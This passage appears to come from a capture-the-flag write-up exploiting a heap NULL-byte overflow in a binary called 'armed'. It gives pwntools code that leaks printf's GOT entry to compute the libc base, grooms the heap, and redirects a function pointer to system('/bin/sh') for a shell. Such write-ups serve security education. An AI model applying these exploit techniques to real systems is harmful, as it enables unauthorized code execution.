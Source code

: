 We can use this to leak the address of `printf` from the got immediately after
connecting. Since we have a copy of the target's libc, we can then compute the
base address of libc.

```
elf = ELF("./armed")
libc = ELF("./libc.so.6")

# Leak the .got entry for printf IOT get libc base.
leak = leak_mem(elf.got["printf"])
printf_addr = u32(leak[:4])
libc.address = printf_addr - libc.symbols["printf"]
log.info("printf.got : 0x{:x}".format(printf_addr))
log.info("libc base: 0x{:x}".format(libc.address))
```

Now that we have the base address of libc, combined with an arbitrary function
call with a controlled first argument, it *should* be trivial to call
`system("/bin/sh")`. However, our leak will end up corrupting the existing
contact object. If we try to edit it to set the function pointer to something
else, we will end up writing to the .got (since we corrupted the info_t
pointer).

We can work around this by simply replacing this object until we can get back
to a state where we have overlapping allocations in a new object. We can use
the `create_contact` function to replace the current one and the
`print_contact` function to determine when we're able to cause overlapping
objects. Due to the small size of the objects and the nature of our NULL-byte
overflow, we may need to allocation multiple objects until we can get back to a
predictable and exploitable state. I did this manually, and found that after
creating 3 objects, the fourth would always overlap with the same offsets as
before (how convenient).

```
log.info("Fixing heap state...")
for _ in xrange(3):
    create_contact("", "", "")
```

## Final exploit

For the final exploit, we can set the function pointer to `system`, and ensure
the first argument is "/bin/sh". For my exploit, I found the offset of the
"/bin/sh" string in libc, and overwrote the `info_t*` field with that address
minus 100 as detailed in the leak. In theory, you could simply ensure you set
the `info.number` field to "/bin/sh", but I went with the earlier method since
I knew it already worked with the read primitive.

Creating this contact and trying to call it should spawn a shell.

```
# Use the same primitive has the leak, except call system and
# set the contact->info pointer to point to "/bin/sh" in libc.
address = "b"*16 + p32(libc.symbols["system"]) + "testname"
binsh_addr = next(libc.search("/bin/sh"))
log.info("/bin/sh addr: 0x{:x}".format(binsh_addr))
number = "c"*20 + p32(binsh_addr - 100)
create_contact("a"*100, address, number)

# Trigger the primitive for a shell
log.info("Triggering system...")
conn.sendline("4")
conn.interactive()
```
